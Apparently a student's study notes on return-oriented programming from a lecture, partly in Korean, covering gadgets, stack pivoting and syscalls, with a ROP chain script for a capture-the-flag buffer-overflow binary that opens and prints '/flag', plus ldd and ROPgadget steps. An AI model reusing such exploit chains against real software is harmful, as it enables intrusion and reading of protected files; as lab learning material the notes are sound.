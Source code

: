 Gadgets address base and reuse it

ADD REGISTER
1. PUt that value on the stack
2. POP gadget
SKIP REGISTER
1. POP gadget
NOP
1. ret;
	1. Go to next address and next gadget
	2. SKIP and go NEXT
2. nop ret
STACK PIVOTING
1. xchg
	1. EXCHANGE REGISTER VALUE
	2. ATOMIC instruction
	3. exchange RSP
	4. Original space
	5. NO limitation of overflowed stack anymore
2. LOC

syscall instuction
	VERY RARE

OPEN FILE/READ FILE/CHANGE THE OWNER/CHANGE OF THE PERMISSION
> Function call to C library (Systemcall wrapper) -> 

OPEN THE FLAG and print value> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,10,0,11|L13 Return-oriented Programming, p.38]]
> > ,
> 
> STDOUR> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,36,0,40|L13 Return-oriented Programming, p.38]]> [!PDF|] [[L13 Return-oriented Programming.pdf#page=42&selection=40,2,40,6|L13 Return-oriented Programming, p.42]]
> flag
.data section

> > 1000
> 
> OFfset


```
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404030) # @ .data  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e6b85b) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7de7529) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x00007ffff7ed0e50) # open64  
p += pack('<Q', 0x00007ffff7f221e2) # mov rsi, rax ; shr ecx, 3 ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret  
p += pack('<Q', 0x00007ffff7de6b72) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7edc371) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00007ffff7ed6100) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x00007ffff7de584d) # syscall  
print p
```

1. ldd로 확인
```
ctf@bufferoverflow_overflowret4_no_excstack_64:/$ ldd ./bufferoverflow_overflowret4_no_excstack_64 
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
2. ROPGADGET으로 가젯 찾기
```
python3 ROPgadget/ROPgadget.py --binary ./bufferoverflow_overflowret4_no_excstack_64

python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6


```
3. objdump로 메모리 주소 확인하기